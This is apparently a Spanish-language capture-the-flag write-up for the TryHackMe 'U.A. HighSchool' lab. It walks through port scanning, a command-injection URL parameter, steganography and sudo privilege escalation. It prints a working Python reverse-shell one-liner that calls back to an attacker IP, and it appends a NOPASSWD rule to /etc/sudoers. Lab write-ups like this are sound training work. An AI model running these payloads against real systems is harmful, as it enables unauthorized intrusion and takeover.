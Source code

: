 ```yaml
---
title: HighSchool
description: Write Up de la máquina High School de la plataforma TryHackMe
published: true
date: 2025-05-11T13:43:59.466Z
tags: 
editor: markdown
dateCreated: 2025-05-06T15:54:10.908Z
---
```


# U. A. HighSchool
Bienvenido al write up de la maquina HighSchool de TryHackMe.

## Reconocimiento
Lo primero que vamos a hacer es un analisis de los puertos disponibles donde encontramos tanto el puerto 22, como el puerto 80.
```
nmap -sT -Pn -sV 10.10.229.240
```
![Escaneo de puertos](/imagenes/highschool_1.png)

Así que vamos a entrar en el website, para saber que hay.

Podemos empezar a hacer uso del dirb para comprobar las entradas a los que tenemos acceso.
```
dirb http://{IP}
```
![Escaneo de Dirb](/imagenes/highschool_2.png)

Dentro del analisis hemos encontrado la carpeta assest, aquí vamos a entrar a comprobar que mas cosas interesantes podemos encontrar.

![Acceder al index.php](/imagenes/highschool_3.png)

Se carga una página pero aparantemente está vacía por lo que vamos a hacer intentar modificar el URL con un ?cmd, por ejemplo:
?cmd=id

![Analisis Base64](/imagenes/highschool_5.png)

Como podemos observar, nos da una serie de caracteres aparentemente aleatorio, pero aparienta estar cifrado en base64, por lo que vamos a decodificarlo.

El resultado era el esperado, ahora deberemos intentar hacer una shell reversa para tener acceso, ya que la url interpreta comandos.

## Explotación
Podemos intentar hacer una URL con:
*?cmd=export RHOST="10.9.3.144";export RPORT=9000;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'*

![Infiltrarse](/imagenes/highschool_6.png)

Como podemos observar, tenemos acceso por lo que la shell reversa ha funcionado perfectamente.

![Acceso](/imagenes/highschool_7.png)

Vamos a securizar la shell para ello ponemos:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Tras esto hacemoz Ctrl + Z y ponemos stty raw -echo;fg

Le damos a enter dos veces y ponemos export TERM=xterm.

![Shell curada](/imagenes/highschool_8.png)

Tras acceder, vamos a mirar lo que hay en la carpeta /var/www, ya que a lo mejor aloja otro servicio.
![Mirar contenidos](/imagenes/highschool_9.png)

Sin embargo está cifrada, por lo que deberemos emplear alguna herramienta para descifrarla.

![Passphares](/imagenes/highschool_10.png)

Una vez realizado, podemos observar como la contraseña es "AllmightForEver!!!"

Sin embargo, creemos que está contraseá corresponderá a alguna imagen, vamos a mirar que imagenes hay en el servidor activo.

![Imagenes](/imagenes/highschool_11.png)

Como podemos observar tenemos dos imagenes, vamos a obtenerla en nuestra Kali, con un wget.

![Descarga](/imagenes/highschool_12.png)

Si nos digimos a las imagenes, podemos observar como yuei.jpg si que está correcta, sin embargo oneforall.jpg, está corrompida.

![Mirar imagenes](/imagenes/highschool_13.png)

Para arreglarla, vamos a usar una herramienta llamada MagicBytes, del github Haxrein.

para ello haremos:
```
git clone https://github.com/Haxrein/MagicBytes.git
```

![Repositorio](/imagenes/highschool_14.png)

Una vez clonado el Git, vamos a usarlo para reparar la imagen mediante el siguiente comando:
```
python3 magicbytes.py -i {ruta del archivo} -m jpg
```

![Funcionamiento](/imagenes/highschool_15.png)

Ahora si que podriamos usar steghide, para sacar la esteganografía detras de la imagen.

Para ello vamos a hacer uso de steghide de la siguiente manera:
```
steghide extract -sf {imagenes}
```
Y cuando nos pidan la passphrase, podemos usar la que anteriormente hemos obtenido 

![Escenanografía](/imagenes/highschool_16.png)

Como podemos observar, ha funcionado con oneforall.jgp, sin embargo con yuei.jpg, no.

Obtenemos leemos el archivo mediante un cat creds.txt.

![Contraseña](/imagenes/highschool_17.png)

Tras esto podemos leer que tenemos unas credenciales y podemos loguearnos como el usuario "deku".

![Comprobar usuario](/imagenes/highschool_18.png)

Nos dirigimos al home del usuario y encontraremos la primera flag.


![Primera flag](/imagenes/highschool_19.png)



Ahora vamosa intentar escalar privilegios, para ello vamos a hacer uso de

```
sudo -l
```

![Permisos](/imagenes/highschool_20.png)

Como podemos observar, podemos ejecutar un script llamado feedback, como root, vamos a leerlo.


![Script](/imagenes/highschool_21.png)

El script hace lo siguiente paso por paso:
1. Saluda al usuario
2. Lee un parametro llamado feedback
3. Si el feedback tiene una serie de caracteres previlegios, da un error.
4. Si el feedback es correcto, lo escribe por pantalla y lo guarda en un archivo llamado /var/log/feedback.txt

Para saltarnos está restricción podemos hacer varias cosas, una de ellas puede ser:
- Escribir en /etc/sudoers privilegios a nuestro usuario.

Para ello vamos a poner "deku ALL=NOPASSWD: ALL >> /etc/sudoers"

![Ultima flag](/imagenes/highschool_22.png)

Tras esto podemos observar como tenemos root, y podemos leer la última flag.
IMAGEN 23